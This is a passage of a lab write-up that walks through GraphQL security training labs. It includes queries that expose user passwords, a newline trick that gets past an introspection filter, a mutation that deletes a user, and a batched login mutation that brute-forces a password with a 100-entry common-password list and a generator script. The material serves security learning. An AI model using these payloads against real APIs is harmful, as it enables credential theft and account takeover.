### > The user management functions for this lab are powered by a GraphQL endpoint. The lab contains an access control vulnerability whereby you can induce the API to reveal user credential fields.

> To solve the lab, sign in as the administrator and delete the username ``carlos``. 

---

find this request 

<img width="1211" height="602" alt="image" src="https://github.com/user-attachments/assets/ce5ced22-73f4-416f-835a-effedd00e716" />

``Introspection Query``

```json
{

  "query": " query IntrospectionQuery { __schema { queryType { name } mutationType { name } subscriptionType { name } types { ...FullType } directives { name description args { ...InputValue } } } } fragment FullType on __Type { kind name description fields(includeDeprecated: true) { name description args { ...InputValue } type { ...TypeRef } isDeprecated deprecationReason } inputFields { ...InputValue } interfaces { ...TypeRef } enumValues(includeDeprecated: true) { name description isDeprecated deprecationReason } possibleTypes { ...TypeRef } } fragment InputValue on __InputValue { name description type { ...TypeRef } defaultValue } fragment TypeRef on __Type { kind name ofType { kind name ofType { kind name ofType { kind name } } } }"

}
```

``Introspection Result``

<img width="1540" height="640" alt="image" src="https://github.com/user-attachments/assets/07d67e10-15c5-4b3a-95a9-5a60b4b257f7" />

<img width="843" height="720" alt="image" src="https://github.com/user-attachments/assets/acca9c26-a639-4f12-8c97-1b4b5edcd8de" />

now try to use ``getUser(id:Int!): User`` to find **``administrator``** user


```graphql
{
  getUser(id: 1) {
    id
    username
    password
  }
}

```

<img width="1316" height="367" alt="image" src="https://github.com/user-attachments/assets/e932fd39-cead-4b3d-9c44-3ae3474b1329" />


```
administrator : lnqajgkwlru628r4sgjc
```

<img width="1330" height="486" alt="image" src="https://github.com/user-attachments/assets/4ed941d2-305e-4e47-8b02-58d16d623fb2" />

<img width="1290" height="268" alt="image" src="https://github.com/user-attachments/assets/89d700e2-75c7-4ab1-8c53-441c2c82b3fe" />


  
</details>





<details>
  <summary>Lab: Finding a hidden GraphQL endpoint</summary>


###>  The user management functions for this lab are powered by a hidden GraphQL endpoint. You won't be able to find this endpoint by simply clicking pages in the site. The endpoint also has some defenses against introspection.

> To solve the lab, find the hidden endpoint and delete ``carlos``. 

----


first test common ``graphql`` endpoints

<img width="557" height="460" alt="image" src="https://github.com/user-attachments/assets/3172e313-20bc-4226-9b04-920f1893b50a" />

all responses ``404`` except one ``405`` but say ``method not allowed``

<img width="954" height="241" alt="image" src="https://github.com/user-attachments/assets/3faecc2c-88fb-4074-926b-c76228eed772" />

it seem that it allow **``GET``** method

<img width="919" height="572" alt="image" src="https://github.com/user-attachments/assets/8a3a78bc-2a86-437e-a9c5-af9d7c275a0f" />

now **``qurey not present``**

<img width="1534" height="447" alt="image" src="https://github.com/user-attachments/assets/d77a13d6-bb67-4ee9-8539-4d1d96de0408" />

first put this header in request 

```http
Content-Type: application/json;
```

and try to add simple qurey to see what will be the result

```json
{
  "query": "query{__typename}"
}
```

and booom 

<img width="1534" height="441" alt="image" src="https://github.com/user-attachments/assets/ee8a6f2c-bc06-4909-99aa-cf48313978ef" />

now try to write introspction simple query :

```json
{
  "query": "{__schema{queryType{name}}}"
}
```

response say ``introspection not allowed`` it seems there is filteration on it 

<img width="1542" height="449" alt="image" src="https://github.com/user-attachments/assets/9c22e8d9-09b0-4ac3-9ce2-6471385de770" />

try to pypass it by using **``\n``**:

```json
{
  "query": "{__schema\n{queryType{name}}}"
}

                      |
```
and it work 🔥

<img width="1317" height="438" alt="image" src="https://github.com/user-attachments/assets/1dfa68f6-e45c-4d8e-8671-8b69a4dee4e9" />


now use full ``introspection`` qurey 

```json
{
  "query": " query IntrospectionQuery { __schema\n { queryType { name } mutationType { name } subscriptionType { name } types { ...FullType } directives { name description args { ...InputValue } } } } fragment FullType on __Type { kind name description fields(includeDeprecated: true) { name description args { ...InputValue } type { ...TypeRef } isDeprecated deprecationReason } inputFields { ...InputValue } interfaces { ...TypeRef } enumValues(includeDeprecated: true) { name description isDeprecated deprecationReason } possibleTypes { ...TypeRef } } fragment InputValue on __InputValue { name description type { ...TypeRef } defaultValue } fragment TypeRef on __Type { kind name ofType { kind name ofType { kind name ofType { kind name } } } }"
}

```

<img width="1549" height="705" alt="image" src="https://github.com/user-attachments/assets/e453946c-1581-408f-9545-f8e30d78be1e" />

 ### > use [Introspection Visualization](http://nathanrandal.com/graphql-visualizer/)

<img width="1874" height="580" alt="image" src="https://github.com/user-attachments/assets/02b0bd11-6c73-450d-8307-f4c6419c645c" />

now get users

```json
{
  "query": "{ getUser(id: 1) { id username }}"
}
```

<img width="1402" height="472" alt="image" src="https://github.com/user-attachments/assets/eb842d5b-c4fe-41d7-bd12-fbb7a525e6ea" />

```
id   user
1     adminstrator
2     wiener
3     carlos
```

in ``schema`` foud this ``DeleteOrganizationUserInput``

<img width="771" height="603" alt="image" src="https://github.com/user-attachments/assets/ce921faf-ca9f-48b8-9711-e13caa58d0a1" />

download **`inql`** extension to burp and take the json respose of **``introspection``** to it to see the ``mutaion`` 

<img width="1264" height="447" alt="image" src="https://github.com/user-attachments/assets/74c533cd-2e73-462b-8834-cad3cba39347" />

or use this simple query :

```json
{
  "query": "{ __schema\n { mutationType { name fields { name args { name type { name kind } } } } }}"
}
```

<img width="1441" height="467" alt="image" src="https://github.com/user-attachments/assets/d1eee12e-d58d-4b96-b6a9-3458cabccbbd" />


good now we know that there is **``mutaion``** call **``DeleteOrganizationUserInput``** 

### > Discover the fields inside ``DeleteOrganizationUserInput``

```json
{
  "query": "{ __type(name: \"DeleteOrganizationUserInput\")\n { name kind inputFields { name type { name kind ofType { name kind } } } }}"
}
```

``output``

<img width="1532" height="519" alt="image" src="https://github.com/user-attachments/assets/049c1775-e902-48d6-9e24-17d9dd7c968a" />


so it require the **``id``**

```json
{
  "query": "mutation { deleteOrganizationUser(input: { id: 3 }) { __typename }}"
}
```

<img width="1226" height="399" alt="image" src="https://github.com/user-attachments/assets/555e0324-a75a-4979-a877-078504f1bfa8" />




  
</details>





<details>
  <summary>Lab: Bypassing GraphQL brute force protections</summary>


- <details>
     <summary>Tip</summary>
  
  <img width="1086" height="471" alt="image" src="https://github.com/user-attachments/assets/9aaf76d7-99e0-47c5-995f-90ddd91d2908" />
  
  ```javascript
  
  copy(`123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,mobilemail,mom,monitor,monitoring,montana,moon,moscow`.split(',').map((element,index)=>`
  bruteforce$index:login(input:{password: "$password", username: "carlos"}) {
          token
          success
      }
  `.replaceAll('$index',index).replaceAll('$password',element)).join('\n'));console.log("The query has been copied to your clipboard.");
  ```
  
  <img width="1314" height="725" alt="image" src="https://github.com/user-attachments/assets/fa809ec6-fc31-4f69-ab17-59c287b0afbd" />
  

  -----
  
  ### change it form this :
  
  <img width="1439" height="783" alt="image" src="https://github.com/user-attachments/assets/5299c3b2-8225-4368-9faa-e31770bd3fdb" />
  
  ```graphql
  mutation login($input: LoginInput!) {
          login(input: $input) {
              token
              success
          }
      }
  ```
  
  ### to this
  
  
  
  ```graphql
  mutation login {
          
      }
  ```
  
  ### and inside it put the output of the js script
  
  
  ```json
  
  bruteforce64:login(input:{password: "555555", username: "carlos"}) {
          token
          success
      }
  
  
  bruteforce65:login(input:{password: "11111111", username: "carlos"}) {
          token
          success
      }
  
  
  bruteforce66:login(input:{password: "131313", username: "carlos"}) {
          token
          success
      }
  
  
  
  ```
  
  
  ### result 
  
  
  ```
  mutation login{
  
  bruteforce64:login(input:{password: "555555", username: "carlos"}) {
          token
          success
      }
  
  
  bruteforce65:login(input:{password: "11111111", username: "carlos"}) {
          token
          success
      }
  
  
  bruteforce66:login(input:{password: "131313", username: "carlos"}) {
          token
          success
      }
  
  
  
  }
  ```
  
  


  </details>


```json

{
    "query": "mutation bruteForce {\n    try1: login(input: {username: \"carlos\", password: \"123456\"}) { token success }\n    try2: login(input: {username: \"carlos\", password: \"password\"}) { token success }\n    try3: login(input: {username: \"carlos\", password: \"12345678\"}) { token success }\n    try4: login(input: {username: \"carlos\", password: \"qwerty\"}) { token success }\n    try5: login(input: {username: \"carlos\", password: \"123456789\"}) { token success }\n    try6: login(input: {username: \"carlos\", password: \"12345\"}) { token success }\n    try7: login(input: {username: \"carlos\", password: \"1234\"}) { token success }\n    try8: login(input: {username: \"carlos\", password: \"111111\"}) { token success }\n    try9: login(input: {username: \"carlos\", password: \"1234567\"}) { token success }\n    try10: login(input: {username: \"carlos\", password: \"dragon\"}) { token success }\n    try11: login(input: {username: \"carlos\", password: \"123123\"}) { token success }\n    try12: login(input: {username: \"carlos\", password: \"baseball\"}) { token success }\n    try13: login(input: {username: \"carlos\", password: \"abc123\"}) { token success }\n    try14: login(input: {username: \"carlos\", password: \"football\"}) { token success }\n    try15: login(input: {username: \"carlos\", password: \"monkey\"}) { token success }\n    try16: login(input: {username: \"carlos\", password: \"letmein\"}) { token success }\n    try17: login(input: {username: \"carlos\", password: \"shadow\"}) { token success }\n    try18: login(input: {username: \"carlos\", password: \"master\"}) { token success }\n    try19: login(input: {username: \"carlos\", password: \"666666\"}) { token success }\n    try20: login(input: {username: \"carlos\", password: \"qwertyuiop\"}) { token success }\n    try21: login(input: {username: \"carlos\", password: \"123321\"}) { token success }\n    try22: login(input: {username: \"carlos\", password: \"mustang\"}) { token success }\n    try23: login(input: {username: \"carlos\", password: \"1234567890\"}) { token success }\n    try24: login(input: {username: \"carlos\", password: \"michael\"}) { token success }\n    try25: login(input: {username: \"carlos\", password: \"654321\"}) { token success }\n    try26: login(input: {username: \"carlos\", password: \"superman\"}) { token success }\n    try27: login(input: {username: \"carlos\", password: \"1qaz2wsx\"}) { token success }\n    try28: login(input: {username: \"carlos\", password: \"7777777\"}) { token success }\n    try29: login(input: {username: \"carlos\", password: \"121212\"}) { token success }\n    try30: login(input: {username: \"carlos\", password: \"000000\"}) { token success }\n    try31: login(input: {username: \"carlos\", password: \"qazwsx\"}) { token success }\n    try32: login(input: {username: \"carlos\", password: \"123qwe\"}) { token success }\n    try33: login(input: {username: \"carlos\", password: \"killer\"}) { token success }\n    try34: login(input: {username: \"carlos\", password: \"trustno1\"}) { token success }\n    try35: login(input: {username: \"carlos\", password: \"jordan\"}) { token success }\n    try36: login(input: {username: \"carlos\", password: \"jennifer\"}) { token success }\n    try37: login(input: {username: \"carlos\", password: \"zxcvbnm\"}) { token success }\n    try38: login(input: {username: \"carlos\", password: \"asdfgh\"}) { token success }\n    try39: login(input: {username: \"carlos\", password: \"hunter\"}) { token success }\n    try40: login(input: {username: \"carlos\", password: \"buster\"}) { token success }\n    try41: login(input: {username: \"carlos\", password: \"soccer\"}) { token success }\n    try42: login(input: {username: \"carlos\", password: \"harley\"}) { token success }\n    try43: login(input: {username: \"carlos\", password: \"batman\"}) { token success }\n    try44: login(input: {username: \"carlos\", password: \"andrew\"}) { token success }\n    try45: login(input: {username: \"carlos\", password: \"tigger\"}) { token success }\n    try46: login(input: {username: \"carlos\", password: \"sunshine\"}) { token success }\n    try47: login(input: {username: \"carlos\", password: \"iloveyou\"}) { token success }\n    try48: login(input: {username: \"carlos\", password: \"2000\"}) { token success }\n    try49: login(input: {username: \"carlos\", password: \"charlie\"}) { token success }\n    try50: login(input: {username: \"carlos\", password: \"robert\"}) { token success }\n    try51: login(input: {username: \"carlos\", password: \"thomas\"}) { token success }\n    try52: login(input: {username: \"carlos\", password: \"hockey\"}) { token success }\n    try53: login(input: {username: \"carlos\", password: \"ranger\"}) { token success }\n    try54: login(input: {username: \"carlos\", password: \"daniel\"}) { token success }\n    try55: login(input: {username: \"carlos\", password: \"starwars\"}) { token success }\n    try56: login(input: {username: \"carlos\", password: \"klaster\"}) { token success }\n    try57: login(input: {username: \"carlos\", password: \"112233\"}) { token success }\n    try58: login(input: {username: \"carlos\", password: \"george\"}) { token success }\n    try59: login(input: {username: \"carlos\", password: \"computer\"}) { token success }\n    try60: login(input: {username: \"carlos\", password: \"michelle\"}) { token success }\n    try61: login(input: {username: \"carlos\", password: \"jessica\"}) { token success }\n    try62: login(input: {username: \"carlos\", password: \"pepper\"}) { token success }\n    try63: login(input: {username: \"carlos\", password: \"1111\"}) { token success }\n    try64: login(input: {username: \"carlos\", password: \"zxcvbn\"}) { token success }\n    try65: login(input: {username: \"carlos\", password: \"555555\"}) { token success }\n    try66: login(input: {username: \"carlos\", password: \"11111111\"}) { token success }\n    try67: login(input: {username: \"carlos\", password: \"131313\"}) { token success }\n    try68: login(input: {username: \"carlos\", password: \"freedom\"}) { token success }\n    try69: login(input: {username: \"carlos\", password: \"777777\"}) { token success }\n    try70: login(input: {username: \"carlos\", password: \"pass\"}) { token success }\n    try71: login(input: {username: \"carlos\", password: \"maggie\"}) { token success }\n    try72: login(input: {username: \"carlos\", password: \"159753\"}) { token success }\n    try73: login(input: {username: \"carlos\", password: \"aaaaaa\"}) { token success }\n    try74: login(input: {username: \"carlos\", password: \"ginger\"}) { token success }\n    try75: login(input: {username: \"carlos\", password: \"princess\"}) { token success }\n    try76: login(input: {username: \"carlos\", password: \"joshua\"}) { token success }\n    try77: login(input: {username: \"carlos\", password: \"cheese\"}) { token success }\n    try78: login(input: {username: \"carlos\", password: \"amanda\"}) { token success }\n    try79: login(input: {username: \"carlos\", password: \"summer\"}) { token success }\n    try80: login(input: {username: \"carlos\", password: \"love\"}) { token success }\n    try81: login(input: {username: \"carlos\", password: \"ashley\"}) { token success }\n    try82: login(input: {username: \"carlos\", password: \"nicole\"}) { token success }\n    try83: login(input: {username: \"carlos\", password: \"chelsea\"}) { token success }\n    try84: login(input: {username: \"carlos\", password: \"biteme\"}) { token success }\n    try85: login(input: {username: \"carlos\", password: \"matthew\"}) { token success }\n    try86: login(input: {username: \"carlos\", password: \"access\"}) { token success }\n    try87: login(input: {username: \"carlos\", password: \"yankees\"}) { token success }\n    try88: login(input: {username: \"carlos\", password: \"987654321\"}) { token success }\n    try89: login(input: {username: \"carlos\", password: \"dallas\"}) { token success }\n    try90: login(input: {username: \"carlos\", password: \"austin\"}) { token success }\n    try91: login(input: {username: \"carlos\", password: \"thunder\"}) { token success }\n    try92: login(input: {username: \"carlos\", password: \"taylor\"}) { token success }\n    try93: login(input: {username: \"carlos\", password: \"matrix\"}) { token success }\n    try94: login(input: {username: \"carlos\", password: \"mobilemail\"}) { token success }\n    try95: login(input: {username: \"carlos\", password: \"mom\"}) { token success }\n    try96: login(input: {username: \"carlos\", password: \"monitor\"}) { token success }\n    try97: login(input: {username: \"carlos\", password: \"monitoring\"}) { token success }\n    try98: login(input: {username: \"carlos\", password: \"montana\"}) { token success }\n    try99: login(input: {username: \"carlos\", password: \"moon\"}) { token success }\n    try100: login(input: {username: \"carlos\", password: \"moscow\"}) { token success }\n}",
    "operationName": "bruteForce",
    "variables": {}
}

```


<img width="1436" height="738" alt="image" src="https://github.com/user-attachments/assets/d63785c5-a954-4634-8abc-acce52530286" />

password 

```
123123
```

Token

```
Vuw96J2kIh6BrKRrjlwhb8tQ96AViUTI
```

  
</details>




























